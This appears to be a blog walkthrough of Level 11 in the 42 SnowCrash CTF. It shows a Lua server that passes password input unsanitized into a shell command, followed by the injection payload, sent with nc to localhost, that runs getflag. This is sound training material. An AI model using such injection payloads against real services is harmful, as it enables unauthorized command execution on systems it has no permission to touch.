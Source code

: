 ```yaml
---
title: 42 SnowCrash Level11 - Walkthrough 🤖
tags:
  - ctf
  - snowcrash
  - command-injection
  - lua
  - script
  - exploit
categories:
  - ctfs
  - 42project
date: 2024-05-19 13:26:27
---
```


## Introduction

In Level 11, we are provided with a Lua script that starts a server on port 5151. The objective is to exploit a security vulnerability in this script to gain unauthorized access.

## Step-by-Step Guide
### Step 1: Understanding the Lua Script

First, let's examine the Lua script located in the home directory of Level 11. The script starts a server on port 5151.

Here is the content of the Lua script:
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end

while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end
  end

  client:close()
end
```

### Step 2: Identifying the Vulnerability
The vulnerability lies in the hash function, specifically in this line:
```lua
prog = io.popen("echo "..pass.." | sha1sum", "r")
```
The input pass is directly concatenated into a shell command without any sanitization, leading to a command injection vulnerability.

### Step 3: Exploiting the Vulnerability

To exploit this vulnerability, we can inject a command to redirect the output of the getflag command to a temporary file.

When you connect to the server on port 5151, you are prompted to enter a password. Since the input is not sanitized, we can inject our payload.

Here is the exploit command:
```lua
echo -e "\$(getflag > /tmp/level12flag)" | nc localhost 5151 && cat /tmp/level12flag
```

### Step 4: Executing the Exploit
    1. Open a terminal and run the following command to connect to the server and inject the payload:
```sh
echo -e "\$(getflag > /tmp/level12flag)" | nc localhost 5151
```
    2. The `getflag` command's output will be redirected to `/tmp/level12flag`.

    3. Next, read the contents of the file to get the flag for Level 12:
```sh
cat /tmp/level12flag
```

### Summary

In this walkthrough, we identified and exploited a command injection vulnerability in a Lua script provided in Level 11 of the Snowcrash project. By injecting a malicious command, we were able to redirect the output of the getflag command to a file and retrieve the flag for the next level.

Feel free to reach out if you have any questions or need further clarification on any steps. Good luck with your continued learning and hacking journey!
